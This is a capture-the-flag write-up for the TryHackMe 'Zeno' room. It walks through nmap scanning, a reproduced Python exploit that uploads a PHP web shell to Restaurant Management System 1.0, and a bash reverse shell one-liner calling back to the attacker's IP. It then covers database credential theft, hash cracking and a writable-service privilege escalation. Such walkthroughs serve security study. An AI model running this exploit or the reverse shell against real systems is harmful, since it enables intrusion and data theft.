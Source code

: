 ```yaml
---
title: "Zeno TryHackMe"
date: "02-26-2022"
author: "Reda BELHAJ"
summary: "Do you have the same patience as the great stoic philosopher Zeno? Try it out! Created by  @Biniru!"
tags: ["TryHackMe", "Ctf", "Writeup"]
image: "/images/Zeno/bg.png"
---
```

Let’s take a look at the [Zeno CTF](https://tryhackme.com/room/zeno) on TryHackMe Created by **@Biniru**.

## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.85.109 -sS -Pn -A
```
The “Nmap Output” displayed `1` service running under port 22.
![Nmap1](/images/Zeno/nmap1.JPG)

And Also I decided to run another one on all ports:

```
sudo nmap 10.10.85.109 -sS -Pn -p- -A
```

And this time “Nmap Output” displayed `2` service running under port 22 and 12340.
![Nmap2](/images/Zeno/nmap2.JPG)

### Dirsearch Scan
I next decided to run a Dirsearch scan on the webserver to see if there were any interesting hidden directories, by the command:
![dirsearch](/images/Zeno/dirsearch.JPG)

After we've completed our scan, and accessing the directory, we find a website with **Restaurant Management System** displayed.

## Exploiting
Now let’s look for exploits that we can use.

```
searchsploit Restaurant Management System
```
![Searchsploit](/images/Zeno/searchsploit.JPG)
The Output displayed that there's **RCE**: Remote Code Execution

And I modify the Exploit to:

```Python
# Exploit Title: Restaurant Management System 1.0  - Remote Code Execution
# Date: 2019-10-16
# Exploit Author: Ibad Shah
# Vendor Homepage: https://www.sourcecodester.com/users/lewa
# Software Link: https://www.sourcecodester.com/php/11815/restaurant-management-system.html
# Version: N/A
# Tested on: Apache 2.4.41

#!/usr/bin/python

import requests
import sys
print ("""
    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|
""")

print ("Credits : All InfoSec (Raja Ji's) Group")

url = sys.argv[1]

if len(sys.argv[1]) < 8:
	print("[+] Usage : python rms-rce.py http://localhost:80/")
	exit()

print ("[+] Restaurant Management System Exploit, Uploading Shell")

target = url+"admin/foods-exec.php"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0)Gecko/20100101 Firefox/69.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Length": "327",
    "Content-Type": "multipart/form-data;boundary=---------------------------191691572411478",
    "Connection": "close",
	"Referer": "http://localhost:8081/rms/admin/foods.php",
	"Cookie": "PHPSESSID=4dmIn4q1pvs4b79",
	"Upgrade-Insecure-Requests": "1"
}

data = """
-----------------------------191691572411478
Content-Disposition: form-data; name="photo"; filename="reverse-shell.php"
Content-Type: text/html

<?php echo shell_exec($_GET["cmd"]); ?>
-----------------------------191691572411478
Content-Disposition: form-data; name="Submit"

Add
-----------------------------191691572411478--
"""

r = requests.post(target,verify=False, headers=headers,data=data)

print("[+] Shell Uploaded. Please check the URL :"+url+"images/reverse-shell.php")
```

So it successfully did a RCE and uploaded a shell on the host :
![done](/images/Zeno/reverseShell.JPG)

And I tried **id** command:
![testID](/images/Zeno/testID.JPG)

### Reverse Shell
I set up my netcat listener on port 4444 and I fired up Burp and sent a POST request with the following encoded payload using URL encoding:

```
sh -i >& /dev/tcp/ 10.8.174.180/4444 0>&1
```
![burp](/images/Zeno/burp.JPG)

**Great!** I received a reverse connection on my port 4444.

### Database Discovery
Now we're in the machine and I decided to take a look at the `config.php` inside `connection` folder. which gave me the username and the password for accessing the database:
![configPHP](/images/Zeno/configPHP.JPG)

Then I tried to connect to the database using the credentials of last file. And I found some **Password Hashs** inside `members` table:
![tables](/images/Zeno/tables.JPG)
![members](/images/Zeno/members.JPG)

And with the help of [CrackStation](https://crackstation.net/). We found 2 out of 3 passwords:
![crackstation](/images/Zeno/crackstation.JPG)

## User Flag
Inside the home directory of the `edward` user. I notice a file called `user.txt` but I didn't have the rights to access it:
![permDENIED](/images/Zeno/permDENIED.JPG)

Then I tried to get `linpeas.sh` with the use of **curl** and **http.server**:
![serverSTART](/images/Zeno/serverSTART.JPG)
![getLIN](/images/Zeno/getLIN.JPG)

As I was reading `linpeas.sh` output I found some clear text credentials!
![linpeasOutput](/images/Zeno/linpeasOutput.JPG)
![fstab](/images/Zeno/fstab.JPG)

After I've tried to use that password for **edward**:
![ssh](/images/Zeno/ssh.JPG)

And I got the flag :

```
THM{******************}
```

## Root Flag
Now it’s time to escalate our privileges and get the root flag. The last time when we run `linpeas.sh` we found that we have write permissions on a service file:
![zenoMonitor](/images/Zeno/zenoMonitor.JPG)

And I modify the command inside the service to:
![modify](/images/Zeno/modify.JPG)

Then I reboot the system:
![reboot](/images/Zeno/reboot.JPG)

And after some minutes I entered SSH with edward credentials and I run `/bin/bash -p` and I've become root:
![root](/images/Zeno/root.JPG)

